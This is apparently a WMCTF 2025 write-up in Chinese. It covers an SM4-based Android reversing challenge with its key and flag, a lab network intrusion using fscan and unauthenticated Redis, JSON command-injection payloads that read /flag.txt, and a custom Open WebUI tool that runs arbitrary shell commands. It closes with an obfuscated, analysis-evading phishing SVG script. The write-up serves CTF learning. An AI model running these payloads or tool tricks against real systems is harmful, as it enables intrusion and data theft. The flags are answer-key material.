import androidx.emoji2.text.d;
import b0.C0098a;
import b0.e;
import com.google.android.material.datepicker.k;
import e.AbstractActivityC0115h;
import e.C0114g;

public class MainActivity extends AbstractActivityC0115h {
    public EditText f1494x;
    static {
        System.loadLibrary("yellow");
    }
    public MainActivity() {
        ((e) this.f818e.f832c).e("androidx:appcompat", new C0098a(this));
        h(new C0114g(this));
    }
    public native boolean checkflag(String str);
    @Override // e.AbstractActivityC0115h, androidx.activity.k, x.f, android.app.Activity
    public final void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        View inflate = getLayoutInflater().inflate(R.layout.activity_main, (ViewGroup) null, false);
        int i2 = R.id.button;
        if (((Button) d.j(inflate, R.id.button)) != null) {
            if (((EditText) d.j(inflate, R.id.editText)) == null) {
                i2 = R.id.editText;
            } else {
                if (((TextView) d.j(inflate, R.id.sample_text)) != null) {
                    setContentView((ConstraintLayout) inflate);
                    this.f1494x = (EditText) findViewById(R.id.editText);
                    ((Button) findViewById(R.id.button)).setOnClickListener(new k(2, this));
                    return;
                }
                i2 = R.id.sample_text;
            }
        }
        throw new NullPointerException("Missing required view with ID: ".concat(inflate.getResources().getResourceName(i2)));
    }
}
```

native层是标准的SM4加密

```C++
bool __fastcall Java_com_example_yellow_MainActivity_checkflag(__int64 a1, __int64 a2, __int64 a3)
{
  const char *s; // x22
  int n; // w24
  unsigned __int8 *v7; // x25
  __int64 n_1; // x26
  unsigned __int8 *s_1; // x0
  int v10; // w8
  int c; // w1
  int v12; // w24
  __int64 v13; // x8
  _BOOL4 v14; // w24
  unsigned __int64 n47; // x11
  unsigned __int64 n0x2E; // x10
  bool v17; // zf
  __int64 dest_; // [xsp+0h] [xbp-130h] BYREF
  _DWORD v20[66]; // [xsp+8h] [xbp-128h] BYREF
  __int128 v21; // [xsp+110h] [xbp-20h]
  __int64 v22; // [xsp+120h] [xbp-10h]

  v22 = *(_QWORD *)(_ReadStatusReg(TPIDR_EL0) + 40);
  s = (const char *)(*(__int64 (__fastcall **)(__int64, __int64, _QWORD))(*(_QWORD *)a1 + 1352LL))(a1, a3, 0);
  n = strlen(s);
  v21 = *(_OWORD *)&byte_ADC;
  v7 = (unsigned __int8 *)&v20[-2] - (((unsigned int)(n + 16) + 15LL) & 0x1FFFFFFF0LL);
  n_1 = n;
  memcpy(&dest_, s, n);
  s_1 = &v7[n];
  if ( n <= 0 )
    v10 = -(-n & 0xF);
  else
    v10 = n & 0xF;
  c = 16 - v10;
  v12 = 16 - v10 + n;
  v13 = v12;
  if ( n_1 + 1 > v12 )
    v13 = n_1 + 1;
  memset(s_1, c, v13 - n_1);
  sm4_setkey_enc(v20);
  sm4_crypt_ecb(v20, 1, (unsigned int)v12, v7, v7);
  v14 = 0;
  if ( *v7 == 219 )
  {
    n47 = 0;
    do
    {
      n0x2E = n47;
      if ( n47 == 47 )
        break;
      v17 = v7[n47 + 1] == byte_AEC[n47 + 1];
      ++n47;
    }
    while ( v17 );
    v14 = n0x2E > 0x2E;
  }
  (*(void (__fastcall **)(__int64, __int64, const char *))(*(_QWORD *)a1 + 1360LL))(a1, a3, s);
  return v14;
}
```

密文：DBE98E0AD47ED658741CD38EF85959858177D9F3A8F90F24CFE14FD11A313B72002A8A4EFA863CCAD024AC0300BB40D2

key：0123456789ABCDEFFEDCBA9876543210

找到密文和key注意端序赛博厨子直接解出flag



WMCTF{sm4_1s_1imsss_test_easyss}

# Misc

## Check in 

手速局，二血

## Questionnaire

手速局，二血

## Shopping company1



直接vshell上线

## Shopping company3

传个fscan上去，发现有两个网段

```Python
wget http://154.36.152.109:9999/fscan

ifconfig
```

对于172的网段进行扫描，结果如下

```Python
root@ff7bf03fb11e:/tmp# ./fscan -h 172.20.0.20/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-09-20 13:27:54] [INFO] 暴力破解线程数: 1
[2025-09-20 13:27:54] [INFO] 开始信息扫描
[2025-09-20 13:27:54] [INFO] CIDR范围: 172.20.0.0-172.20.0.255
[2025-09-20 13:27:54] [INFO] 生成IP范围: 172.20.0.0.%!d(string=172.20.0.255) - %!s(MISSING).%!d(MISSING)
[2025-09-20 13:27:54] [INFO] 解析CIDR 172.20.0.20/24 -> IP范围 172.20.0.0-172.20.0.255
[2025-09-20 13:27:54] [INFO] 最终有效主机数量: 256
[2025-09-20 13:27:54] [INFO] 开始主机扫描
[2025-09-20 13:27:54] [SUCCESS] 目标 172.20.0.1      存活 (ICMP)
[2025-09-20 13:27:54] [SUCCESS] 目标 172.20.0.10     存活 (ICMP)
[2025-09-20 13:27:54] [SUCCESS] 目标 172.20.0.20     存活 (ICMP)
[2025-09-20 13:27:57] [INFO] 存活主机数量: 3
[2025-09-20 13:27:57] [INFO] 有效端口数量: 233
[2025-09-20 13:27:57] [SUCCESS] 端口开放 172.20.0.1:22
[2025-09-20 13:27:57] [SUCCESS] 端口开放 172.20.0.10:3000
[2025-09-20 13:27:57] [SUCCESS] 端口开放 172.20.0.1:3000
[2025-09-20 13:27:57] [SUCCESS] 服务识别 172.20.0.1:22 => [ssh] 版本:9.2p1 Debian 2+deb12u7 产品:OpenSSH 系统:Linux 信息:protocol 2.0 Banner:[SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u7.]
[2025-09-20 13:28:07] [SUCCESS] 服务识别 172.20.0.10:3000 => [http]
[2025-09-20 13:28:07] [SUCCESS] 服务识别 172.20.0.1:3000 => [http]
[2025-09-20 13:28:08] [INFO] 存活端口数量: 3
[2025-09-20 13:28:08] [INFO] 开始漏洞扫描
[2025-09-20 13:28:08] [INFO] 加载的插件: ssh, webpoc, webtitle
[2025-09-20 13:28:08] [SUCCESS] 网站标题 http://172.20.0.10:3000   状态码:200 长度:7801   标题:智能商城 - 您的购物天堂
[2025-09-20 13:28:08] [SUCCESS] 网站标题 http://172.20.0.1:3000    状态码:200 长度:7801   标题:智能商城 - 您的购物天堂
[2025-09-20 13:28:10] [SUCCESS] 扫描已完成: 5/5
```

没看到什么特殊的，扫描一下192的段

```Python
root@ff7bf03fb11e:/tmp# ./fscan -h 192.168.100.10/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-09-20 13:29:30] [INFO] 暴力破解线程数: 1
[2025-09-20 13:29:30] [INFO] 开始信息扫描
[2025-09-20 13:29:30] [INFO] CIDR范围: 192.168.100.0-192.168.100.255
[2025-09-20 13:29:30] [INFO] 生成IP范围: 192.168.100.0.%!d(string=192.168.100.255) - %!s(MISSING).%!d(MISSING)
[2025-09-20 13:29:30] [INFO] 解析CIDR 192.168.100.10/24 -> IP范围 192.168.100.0-192.168.100.255
[2025-09-20 13:29:30] [INFO] 最终有效主机数量: 256
[2025-09-20 13:29:30] [INFO] 开始主机扫描
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.1   存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.10  存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.20  存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.30  存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.40  存活 (ICMP)
[2025-09-20 13:29:34] [INFO] 存活主机数量: 5
[2025-09-20 13:29:34] [INFO] 有效端口数量: 233
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.1:22
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.20:6379
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.40:8080
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.30:8080
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.1:3000
[2025-09-20 13:29:34] [SUCCESS] 服务识别 192.168.100.1:22 => [ssh] 版本:9.2p1 Debian 2+deb12u7 产品:OpenSSH 系统:Linux 信息:protocol 2.0 Banner:[SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u7.]
[2025-09-20 13:29:39] [SUCCESS] 服务识别 192.168.100.20:6379 => [redis] 版本:7.4.5 产品:Redis key-value store
[2025-09-20 13:29:39] [SUCCESS] 服务识别 192.168.100.40:8080 => [http]
[2025-09-20 13:29:39] [SUCCESS] 服务识别 192.168.100.30:8080 => [http]
[2025-09-20 13:29:44] [SUCCESS] 服务识别 192.168.100.1:3000 => [http]
[2025-09-20 13:29:44] [INFO] 存活端口数量: 5
[2025-09-20 13:29:44] [INFO] 开始漏洞扫描
[2025-09-20 13:29:44] [INFO] 加载的插件: redis, ssh, webpoc, webtitle
[2025-09-20 13:29:44] [SUCCESS] 网站标题 http://192.168.100.30:8080 状态码:200 长度:5976   标题:智能办公管理系统 - 智能办公管理系统
[2025-09-20 13:29:44] [SUCCESS] 网站标题 http://192.168.100.1:3000 状态码:200 长度:7801   标题:智能商城 - 您的购物天堂
[2025-09-20 13:29:44] [SUCCESS] 网站标题 http://192.168.100.40:8080 状态码:200 长度:7211   标题:Open WebUI
[2025-09-20 13:29:47] [SUCCESS] Redis 192.168.100.20:6379 发现未授权访问 文件位置:/data/dump.rdb
[2025-09-20 13:29:51] [SUCCESS] Redis无密码连接成功: 192.168.100.20:6379
[2025-09-20 13:29:51] [SUCCESS] 扫描已完成: 8/8
```

有个redis未授权连接一下

```Python
PS C:\Users\baozhongqi> redis-cli -h 192.168.100.20 -p 6379
192.168.100.20:6379> info
# Server
redis_version:7.4.5
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:14ef7c78d3983ab
redis_mode:standalone
os:Linux 6.1.0-37-amd64 x86_64
arch_bits:64
monotonic_clock:POSIX clock_gettime
multiplexing_api:epoll
atomicvar_api:c11-builtin
gcc_version:14.2.0
process_id:1
process_supervised:no
run_id:164070046b533e020f5f5b58eae4654a63257f43
tcp_port:6379
server_time_usec:1758375263434887
uptime_in_seconds:79981
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:13544799
executable:/data/redis-server
config_file:
io_threads_active:0
listener0:name=tcp,bind=*,bind=-::*,port=6379

# Clients
connected_clients:3
cluster_connections:0
maxclients:10000
client_recent_max_input_buffer:20480
client_recent_max_output_buffer:0
blocked_clients:0
tracking_clients:0
pubsub_clients:0
watching_clients:0
clients_in_timeout_table:0
total_watched_keys:0
total_blocking_keys:0
total_blocking_keys_on_nokey:0

# Memory
used_memory:1399664
used_memory_human:1.33M
used_memory_rss:10629120
used_memory_rss_human:10.14M
used_memory_peak:1558104
used_memory_peak_human:1.49M
used_memory_peak_perc:89.83%
used_memory_overhead:974712
used_memory_startup:946168
used_memory_dataset:424952
used_memory_dataset_perc:93.71%
allocator_allocated:2109640
allocator_active:2482176
allocator_resident:5873664
allocator_muzzy:0
total_system_memory:7992999936
total_system_memory_human:7.44G
used_memory_lua:31744
used_memory_vm_eval:31744
used_memory_lua_human:31.00K
used_memory_scripts_eval:0
number_of_cached_scripts:0
number_of_functions:0
number_of_libraries:0
used_memory_vm_functions:32768
used_memory_vm_total:64512
used_memory_vm_total_human:63.00K
used_memory_functions:192
used_memory_scripts:192
used_memory_scripts_human:192B
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.18
allocator_frag_bytes:296504
allocator_rss_ratio:2.37
allocator_rss_bytes:3391488
rss_overhead_ratio:1.81
rss_overhead_bytes:4755456
mem_fragmentation_ratio:7.60
mem_fragmentation_bytes:9231280
mem_not_counted_for_evict:640
mem_replication_backlog:0
mem_total_replication_buffers:0
mem_clients_slaves:0
mem_clients_normal:26256
mem_cluster_links:0
mem_aof_buffer:640
mem_allocator:jemalloc-5.3.0
mem_overhead_db_hashtable_rehashing:0
active_defrag_running:0
lazyfree_pending_objects:0
lazyfreed_objects:9

# Persistence
loading:0
async_loading:0
current_cow_peak:0
current_cow_size:0
current_cow_size_age:0
current_fork_perc:0.00
current_save_keys_processed:0
current_save_keys_total:0
rdb_changes_since_last_save:12
rdb_bgsave_in_progress:0
rdb_last_save_time:1758372929
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:0
rdb_current_bgsave_time_sec:-1
rdb_saves:3
rdb_last_cow_size:380928
rdb_last_load_keys_expired:0
rdb_last_load_keys_loaded:0
aof_enabled:1
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_rewrites:0
aof_rewrites_consecutive_failures:0
aof_last_write_status:ok
aof_last_cow_size:0
module_fork_in_progress:0
module_fork_last_cow_size:0
aof_current_size:2697
aof_base_size:88
aof_pending_rewrite:0
aof_buffer_length:0
aof_pending_bio_fsync:0
aof_delayed_fsync:0

# Stats
total_connections_received:7989
total_commands_processed:10969
instantaneous_ops_per_sec:0
total_net_input_bytes:164092
total_net_output_bytes:409348
total_net_repl_input_bytes:0
total_net_repl_output_bytes:0
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
instantaneous_input_repl_kbps:0.00
instantaneous_output_repl_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_subkeys:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
expire_cycle_cpu_milliseconds:1120
evicted_keys:0
evicted_clients:0
evicted_scripts:0
total_eviction_exceeded_time:0
current_eviction_exceeded_time:0
keyspace_hits:164
keyspace_misses:4
pubsub_channels:0
pubsub_patterns:0
pubsubshard_channels:0
latest_fork_usec:258
total_forks:1
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0
total_active_defrag_time:0
current_active_defrag_time:0
tracking_total_keys:0
tracking_total_items:0
tracking_total_prefixes:0
unexpected_error_replies:0
total_error_replies:31
dump_payload_sanitizations:0
total_reads_processed:18968
total_writes_processed:10983
io_threaded_reads_processed:0
io_threaded_writes_processed:0
client_query_buffer_limit_disconnections:0
client_output_buffer_limit_disconnections:0
reply_buffer_shrinks:39
reply_buffer_expands:11
eventloop_cycles:823770
eventloop_duration_sum:201034186
eventloop_duration_cmd_sum:43994
instantaneous_eventloop_cycles_per_sec:10
instantaneous_eventloop_duration_usec:256
acl_access_denied_auth:0
acl_access_denied_cmd:0
acl_access_denied_key:0
acl_access_denied_channel:0

# Replication
role:master
connected_slaves:0
master_failover_state:no-failover
master_replid:4ec7a6f3c1751b9ca2bb85a60ae0aaaabf98928a
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:24
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:26.989382
used_cpu_user:182.022643
used_cpu_sys_children:0.000426
used_cpu_user_children:0.001780
used_cpu_sys_main_thread:26.988181
used_cpu_user_main_thread:182.017391

# Modules

# Errorstats
errorstat_ERR:count=31

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=10,expires=10,avg_ttl=68250416,subexpiry=0
```

版本非常新，思考能否把那个数据库文件弄下来，搞半天弄不下来，观察两个web服务30是一个老的管理系统，其中有report，而这个report我正好在redis里面看到过




所以也就是说30可以用这个打，而40是一个open webui系统，不知道怎么整

先打30，经过不懈努力终于睡眠了

```JSON
{
  "data": {
    "type": "sales",
    "period": "monthly"
  },
  "template": {
    "template_type": "dynamic",
    "fields": [
      "sales",
      "revenue"
    ],
    "commands": [
      "sleep 5",
      "date"
    ]
  }
}
```

由于无法判断命令是否执行，并且这是gob反序列化，一般是在`/app`所以我们尝试写入静态目录下

```JSON
{
  "data": {
    "type": "sales",
    "period": "monthly"
  },
  "template": {
    "template_type": "dynamic",
    "fields": [
      "sales",
      "revenue"
    ],
    "commands": [
      "touch /app/static/1.txt && sleep 5",
      "date"
    ]
  }
}
```

成功执行，现在来获取flag即可

```JSON
{
  "data": {
    "type": "sales",
    "period": "monthly"
  },
  "template": {
    "template_type": "dynamic",
    "fields": [
      "sales",
      "revenue"
    ],
    "commands": [
      "tac /flag.txt > /app/static/3.txt && sleep 5",
      "date"
    ]
  }
}
```

然后现在去打40的openai webui的1day，我们首先就要考虑能够RCE的

## Shopping company2



拿到登录的账号密码，进去之后发现版本为v0.6.1 http://192.168.100.40:8080/auth?redirect=%2F

给open-webui加个deepseek的api，然后写一个工具，添加到open-webui的自定义工具里

```Python
import os
import subprocess
import asyncio
from typing import Dict, Any


class Tools:
    def __init__(self):
        pass

    def execute_system_command(self, command: str, timeout: int = 30) -> str:
        """
        Execute a system command and return the output.
        
        WARNING: This tool allows execution of ANY system command without safety checks.
        Use with extreme caution as it can be dangerous and potentially harm your system.
        
        :param command: The system command to execute.
        :param timeout: Maximum time in seconds to wait for command completion.
        :return: The output of the command execution.
        """
        try:
            # Execute the command with a timeout
            result = subprocess.run(
                command,
                shell=True,
                capture_output=True,
                text=True,
                timeout=timeout
            )
            
            if result.returncode == 0:
                return f"Command executed successfully:\n{result.stdout}"
            else:
                return f"Command failed with error:\n{result.stderr}"
                
        except subprocess.TimeoutExpired:
            return f"Command timed out after {timeout} seconds."
        except Exception as e:
            return f"Error executing command: {str(e)}"

    async def execute_system_command_async(self, command: str, timeout: int = 30) -> str:
        """
        Execute a system command asynchronously and return the output.
        
        WARNING: This tool allows execution of ANY system command without safety checks.
        Use with extreme caution as it can be dangerous and potentially harm your system.
        
        :param command: The system command to execute.
        :param timeout: Maximum time in seconds to wait for command completion.
        :return: The output of the command execution.
        """
        try:
            # Execute the command asynchronously with a timeout
            process = await asyncio.create_subprocess_shell(
                command,
                stdout=asyncio.subprocess.PIPE,
                stderr=asyncio.subprocess.PIPE
            )
            
            try:
                stdout, stderr = await asyncio.wait_for(
                    process.communicate(),
                    timeout=timeout
                )
                
                if process.returncode == 0:
                    return f"Command executed successfully:\n{stdout.decode('utf-8')}"
                else:
                    return f"Command failed with error:\n{stderr.decode('utf-8')}"
                    
            except asyncio.TimeoutError:
                process.kill()
                await process.communicate()
                return f"Command timed out after {timeout} seconds."
                
        except Exception as e:
            return f"Error executing command: {str(e)}"

    def list_directory_contents(self, path: str = ".") -> str:
        """
        List the contents of a directory.
        
        :param path: The directory path to list. Defaults to current directory.
        :return: A formatted string with directory contents.
        """
        try:
            if not os.path.exists(path):
                return f"Path '{path}' does not exist."
                
            if not os.path.isdir(path):
                return f"'{path}' is not a directory."
                
            items = os.listdir(path)
            if not items:
                return f"Directory '{path}' is empty."
                
            # Format the output
            result = f"Contents of '{path}':\n"
            for item in items:
                full_path = os.path.join(path, item)
                if os.path.isdir(full_path):
                    result += f"[DIR]  {item}/\n"
                else:
                    size = os.path.getsize(full_path)
                    result += f"[FILE] {item} ({size} bytes)\n"
                    
            return result
            
        except Exception as e:
            return f"Error listing directory: {str(e)}"

    def get_system_info(self) -> str:
        """
        Get basic system information.
        
        :return: A string with system information.
        """
        try:
            info = []
            
            # Get platform information
            import platform
            info.append(f"System: {platform.system()}")
            info.append(f"Node: {platform.node()}")
            info.append(f"Release: {platform.release()}")
            info.append(f"Version: {platform.version()}")
            info.append(f"Machine: {platform.machine()}")
            info.append(f"Processor: {platform.processor()}")
            
            # Get memory information (Linux/Mac)
            if platform.system() in ["Linux", "Darwin"]:
                try:
                    with open('/proc/meminfo', 'r') as meminfo:
                        for line in meminfo:
                            if line.startswith('MemTotal:'):
                                info.append(f"Total Memory: {line.split()[1]} {line.split()[2]}")
                                break
                except:
                    pass
                    
            return "\n".join(info)
            
        except Exception as e:
            return f"Error getting system info: {str(e)}"

    def get_current_working_directory(self) -> str:
        """
        Get the current working directory.
        
        :return: The current working directory path.
        """
        try:
            return f"Current working directory: {os.getcwd()}"
        except Exception as e:
            return f"Error getting current directory: {str(e)}"

    def change_directory(self, path: str) -> str:
        """
        Change the current working directory.
        
        :param path: The path to change to.
        :return: A confirmation message or error.
        """
        try:
            os.chdir(path)
            return f"Changed directory to: {os.getcwd()}"
        except Exception as e:
            return f"Error changing directory: {str(e)}"
```

大概功能是：

```Plain
可用工具：
execute_system_command: 执行系统命令（同步）
execute_system_command_async: 执行系统命令（异步）
list_directory_contents: 列出目录内容
get_system_info: 获取系统信息
get_current_working_directory: 获取当前工作目录
change_directory: 更改当前工作目录
```

然后开个新对话，启动我们自定的工具



`execute_system_command <命令>`就可实现rce



## phishing email

邮件藏了个svg，提取出来代码如下

```XML
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 800 600" width="800" height="600">
  <!-- Fake invoice design to look legitimate -->
  <rect width="800" height="600" fill="#f8f9fa"/>
  <rect x="50" y="50" width="700" height="500" fill="white" stroke="#dee2e6" stroke-width="2"/>
  
  <!-- Header -->
  <text x="400" y="100" text-anchor="middle" font-family="Arial" font-size="24" font-weight="bold" fill="#212529">INVOICE #2025-0727</text>
  <text x="400" y="130" text-anchor="middle" font-family="Arial" font-size="14" fill="#6c757d">Payment Due: August 15, 2025</text>
  
  <!-- Company info -->
  <text x="80" y="180" font-family="Arial" font-size="16" font-weight="bold" fill="#495057">From:</text>
  <text x="80" y="200" font-family="Arial" font-size="14" fill="#495057">TechSolutions Corp</text>
  <text x="80" y="220" font-family="Arial" font-size="14" fill="#495057">123 Business Ave</text>
  <text x="80" y="240" font-family="Arial" font-size="14" fill="#495057">New York, NY 10001</text>
  
  <text x="400" y="180" font-family="Arial" font-size="16" font-weight="bold" fill="#495057">To:</text>
  <text x="400" y="200" font-family="Arial" font-size="14" fill="#495057">Your Company</text>
  <text x="400" y="220" font-family="Arial" font-size="14" fill="#495057">456 Client Street</text>
  <text x="400" y="240" font-family="Arial" font-size="14" fill="#495057">Boston, MA 02101</text>
  
  <!-- Invoice details -->
  <line x1="80" y1="280" x2="720" y2="280" stroke="#dee2e6" stroke-width="2"/>
  <text x="80" y="310" font-family="Arial" font-size="14" font-weight="bold" fill="#495057">Description</text>
  <text x="500" y="310" font-family="Arial" font-size="14" font-weight="bold" fill="#495057">Amount</text>
  
  <text x="80" y="340" font-family="Arial" font-size="14" fill="#495057">IT Security Consultation</text>
  <text x="500" y="340" font-family="Arial" font-size="14" fill="#495057">$2,500.00</text>
  
  <text x="80" y="370" font-family="Arial" font-size="14" fill="#495057">Network Assessment</text>
  <text x="500" y="370" font-family="Arial" font-size="14" fill="#495057">$1,800.00</text>
  
  <line x1="450" y1="400" x2="720" y2="400" stroke="#dee2e6" stroke-width="1"/>
  <text x="500" y="430" font-family="Arial" font-size="16" font-weight="bold" fill="#495057">Total: $4,300.00</text>
  
  <text x="400" y="480" text-anchor="middle" font-family="Arial" font-size="12" fill="#dc3545">
    Please click to view detailed payment instructions
  </text>
  
  <!-- Hidden malicious script with multiple layers of obfuscation -->
  <script><![CDATA[
    // Anti-debugging and detection evasion
    var jXKuzdDMGk = false;
    var detectionBypass = true;
    var globalSeed = 0x5A4D;
    var entropy = [];
    
    // Advanced fingerprinting and detection evasion
    (function antiDetection() {
      // Check for WebDriver, PhantomJS, Burp Suite
      if (navigator.webdriver || window.callPhantom || window._phantom || 
          navigator.userAgent.includes("Burp") || navigator.userAgent.includes("HeadlessChrome") ||
          navigator.userAgent.includes("Selenium") || window.chrome && chrome.runtime && chrome.runtime.onConnect) {
        window.location = "about:blank";
        return;
      }
      
      // Advanced environment fingerprinting
      var canvas = document.createElement('canvas');
      var ctx = canvas.getContext('2d');
      ctx.textBaseline = 'top';
      ctx.font = '14px Arial';
      ctx.fillText('Browser fingerprint test', 2, 2);
      var fingerprint = canvas.toDataURL();
      
      // Generate entropy from browser characteristics
      entropy = [
        navigator.hardwareConcurrency || 4,
        screen.colorDepth,
        screen.pixelDepth,
        new Date().getTimezoneOffset(),
        fingerprint.length,
        navigator.language.length,
        window.devicePixelRatio * 1000 | 0
      ];
      
      // Check for debugging environment indicators
      if (window.outerHeight - window.innerHeight > 200 || 
          window.outerWidth - window.innerWidth > 200 ||
          fingerprint.length < 100) {
        detectionBypass = false;
      }
      
      // Generate seed from entropy
      globalSeed = entropy.reduce(function(acc, val) {
        return ((acc << 5) - acc + val) & 0xFFFFFFFF;
      }, 0x5A4D);
    })();
    
    // Block developer tools shortcuts
    document.addEventListener("keydown", function (event) {
      var blockedKeys = [
        { keyCode: 123 }, // F12
        { ctrl: true, keyCode: 85 }, // Ctrl + U
        { ctrl: true, shift: true, keyCode: 73 }, // Ctrl + Shift + I
        { ctrl: true, shift: true, keyCode: 67 }, // Ctrl + Shift + C
        { ctrl: true, shift: true, keyCode: 74 }, // Ctrl + Shift + J
        { ctrl: true, shift: true, keyCode: 75 }, // Ctrl + Shift + K
        { meta: true, alt: true, keyCode: 73 }, // Cmd + Alt + I (Mac)
        { meta: true, keyCode: 85 } // Cmd + U (Mac)
      ];
      
      var isBlocked = blockedKeys.some(function(key) {
        return (!key.ctrl || event.ctrlKey) &&
               (!key.shift || event.shiftKey) &&
               (!key.meta || event.metaKey) &&
               (!key.alt || event.altKey) &&
               event.keyCode === key.keyCode;
      });
      
      if (isBlocked) {
        event.preventDefault();
        return false;
      }
    });
    
    // Block right-click context menu
    document.addEventListener('contextmenu', function(event) {
      event.preventDefault();
      return false;
    });
    
    // Advanced anti-debugging using performance timing with variable thresholds
    (function timingCheck() {
      var baseThreshold = 50;
      var dynamicThreshold = baseThreshold + (globalSeed % 100);
      var checkCount = 0;
      
      setInterval(function() {
        var start = performance.now();
        debugger;
        var end = performance.now();
        checkCount++;
        
        // Variable threshold based on environment
        var currentThreshold = dynamicThreshold + (checkCount * 10);
        
        if (end - start > currentThreshold && detectionBypass) {
          jXKuzdDMGk = true;
          // Redirect with multiple decoy destinations
          var decoyUrls = ['https://www.google.com', 'https://www.microsoft.com', 'about:blank'];
          window.location.replace(decoyUrls[globalSeed % decoyUrls.length]);
        }
      }, 150 + (globalSeed % 100));
    })();
    
    function customPRNG(seed) {
      var m = 0x80000000; // 2**31
      var a = 1103515245;
      var c = 12345;
      
      seed = (a * seed + c) % m;
      return seed / (m - 1);
    }
    
    function advancedXOR(data, keyBase) {
      var result = '';
      var expandedKey = '';
      

      for (var i = 0; i < data.length; i++) {
        var keyChar = keyBase.charCodeAt(i % keyBase.length);
        var entropyVal = entropy[i % entropy.length];
        var rotatedKey = ((keyChar ^ entropyVal) + globalSeed) % 256;
        expandedKey += String.fromCharCode(rotatedKey);
      }
      
      for (var j = 0; j < data.length; j++) {
        result += String.fromCharCode(data.charCodeAt(j) ^ expandedKey.charCodeAt(j));
      }
      
      return result;
    }
    
    // Main payload - heavily obfuscated with multiple transformation layers
    setTimeout(function() {
      if (!jXKuzdDMGk && detectionBypass) {
        var decoyArray1 = [119,109,99,116,102,123,102,97,107,101,95,102,108,97,103,125]; // wmctf{fake_flag}
        var decoyArray2 = [104,116,116,112,115,58,47,47,101,120,97,109,112,108,101,46,99,111,109];
        
        var polymorphicData = [
          'V01DVEZbZmFrZV9mbGFnXQ==',
          'bm90X3RoZV9yZWFsX2ZsYWc=',
          'ZGVjb3lfZGF0YQ==',
          '4oyM4p2h77iP4p2j4oyM4p2d77iL4p2c4oyI4p2g77iN4p2a77iP4p2b4oyL4p2Y',
          '4p2Z77iM4p2X77iO4p2W77iM4p2V77iK4p2U77iL4p2T77iM4p2S77iN4p2R',
          '4p2Q77iL4p2P77iO4p2O77iM4p2N77iK4p2M77iL4p2L77iM4p2K77iN4p2J',
          '4p2I77iL4p2H77iO4p2G77iM4p2F77iK4p2E77iL4p2D77iM4p2C77iN4p2B',
          '4p2A77iL4pyx77iO4py977iM4py877iK4py777iL4py677iM4py577iN4py4'
        ];
        
        // Layer 3: Environmental validation with complex checks
        var envValidation = function() {
          var checks = [
            typeof window !== 'undefined',
            typeof document !== 'undefined',
            navigator.userAgent.length > 10,
            screen.width > 0 && screen.height > 0,
            Date.now() > 1700000000000, // After 2023
            Math.abs(new Date().getTimezoneOffset()) < 1440, // Valid timezone
            entropy.length === 7,
            globalSeed !== 0x5A4D // Should be modified by fingerprinting
          ];
          
          var validCount = checks.filter(Boolean).length;
          return validCount >= 6; // Require most checks to pass
        };
        
        // Layer 4: Steganographic data hidden in mathematical sequences
        var fibSequence = [1,1,2,3,5,8,13,21,34,55,89,144,233,377,610,987,1597,2584];
        var primeSequence = [2,3,5,7,11,13,17,19,23,29,31,37,41,43,47,53,59,61];
        
        // Hidden data in sequence differences (steganography)
        var hiddenIndices = [];
        for (var i = 1; i < fibSequence.length; i++) {
          var diff = fibSequence[i] - fibSequence[i-1];
          if (diff > 0 && diff < polymorphicData.length) {
            hiddenIndices.push(diff % polymorphicData.length);
          }
        }
        

        var generateDynamicKey = function() {
          var timeComponent = (Date.now() % 86400000).toString(36); // Daily changing component
          var envComponent = (globalSeed ^ 0xDEADBEEF).toString(36);
          var browserComponent = (navigator.userAgent.length * screen.colorDepth).toString(36);
          

          var staticKey = 'WMCTF_2025_SVG_ANALYSIS';
          return staticKey;
        };

        var decryptionPipeline = function() {
          if (!envValidation()) {
            console.log('Environment validation failed');
            return null;
          }
          
          try {
            var dynamicKey = generateDynamicKey();
            var realDataIndices = [3, 4, 5, 6, 7]; // Skip decoy data
            var encryptedParts = [];
            
            for (var i = 0; i < realDataIndices.length; i++) {
              var idx = realDataIndices[i];
